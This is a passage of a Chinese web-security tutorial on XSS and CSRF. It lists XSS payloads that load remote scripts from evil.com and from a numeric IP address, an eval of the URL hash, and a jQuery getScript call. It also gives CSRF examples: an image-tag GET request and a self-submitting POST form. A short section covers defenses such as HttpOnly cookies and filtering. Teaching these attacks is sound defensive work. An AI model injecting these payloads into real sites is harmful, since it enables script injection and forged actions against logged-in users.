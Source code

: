 远程加载：

```html
<script src="http://evil.com/xx.js"></script>
<script src='//114.5.1.4/1.js'></script>
<script src='//114.5.1.4'>
<script src=//2526951965>
```

在 URL 上动手脚：

```html
// http://xxx.com/#alert(1)
<script>eval(document.location.hash.substr(1))</script>
```

动用 jQuery：

```html
<script src='https://code.jquery.com/jquery-3.3.1.min.js'></script>
<a href="javascript:$.getScript('http://114.5.1.4/1.js')">Click</a>
```

### 抵挡 XSS

#### HttpOnly

如果有个 Cookie 有 HttpOnly 的属性，那么网页的 JS 就不能访问这个 Cookie。既然访问都不能访问，更别提读写了。

#### 文本过滤

- 输入检查（过滤恶意标签）
- 输出检查（尖括号？单双引号？……）
- 处理富文本：选择安全的标签

## 跨站请求伪造 CSRF

跨站请求伪造（Cross-site request forgery，CSRF 或者 XSRF），也被称为 one-click attack 或者 session riding，是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。

跟跨站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

让用户访问即可发起一次 GET 请求：

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

让用户访问即可发起一次 POST 请求：

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	<input name="username" type="hidden" value="CSRFd" />
	<input type="submit" value="Submit Request" />
</form>

<script>
	document.getElementById("autosubmit").submit();
</script>
```
